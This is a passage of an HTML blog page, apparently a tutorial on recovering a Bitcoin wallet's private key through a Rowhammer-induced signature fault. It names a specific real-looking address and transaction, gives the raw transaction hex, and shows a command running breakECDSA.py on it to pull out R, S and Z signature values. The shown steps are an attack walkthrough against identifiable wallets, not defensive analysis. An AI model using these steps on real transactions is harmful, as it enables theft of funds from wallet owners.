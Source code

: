 

<figure class="wp-block-image"><img src="./How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault Rowhammer Attack on Bitcoin CRYPTO DEEP TECH_files/image-100-1024x202.png" alt="How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault (Rowhammer Attack on Bitcoin)" class="wp-image-1138"></figure>



<hr class="wp-block-separator has-alpha-channel-opacity">



<h2>Prepare RawTX for the attack</h2>



<hr class="wp-block-separator has-alpha-channel-opacity">



<blockquote class="wp-block-quote"><p><strong><a href="https://btc1.trezor.io/address/18hhdfynnojmiMmBMsrkXNFWketq4mmDHB" target="_blank" rel="noreferrer noopener">18hhdfynnojmiMmBMsrkXNFWketq4mmDHB</a></strong></p><p><a href="https://btc1.trezor.io/tx/3886796f1ba39ca9c673ab969d7c9366d2d69fe9d58726f580fa02e14cca3d29" target="_blank" rel="noreferrer noopener">https://btc1.trezor.io/tx/3886796f1ba39ca9c673ab969d7c9366d2d69fe9d58726f580fa02e14cca3d29</a></p></blockquote>



<figure class="wp-block-image"><img src="./How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault Rowhammer Attack on Bitcoin CRYPTO DEEP TECH_files/image-140-1024x143.png" alt="How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault (Rowhammer Attack on Bitcoin)" class="wp-image-1242"></figure>



<pre class="wp-block-code"><code>RawTX = 0100000001a11dd54f81e27ca14eaf9bb4c94e6b91398130bdb09a71fa2dccf994636de08a1d0000006b483045022100f6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386022048c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0162020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000
</code></pre>



<h2>Now we need to get all R, S, Z values ​​from all vulnerable transactions</h2>



<p>Let’s use the breakECDSA.py script</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001a11dd54f81e27ca14eaf9bb4c94e6b91398130bdb09a71fa2dccf994636de08a1d0000006b483045022100f6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386022048c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0162020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000
</code></pre>
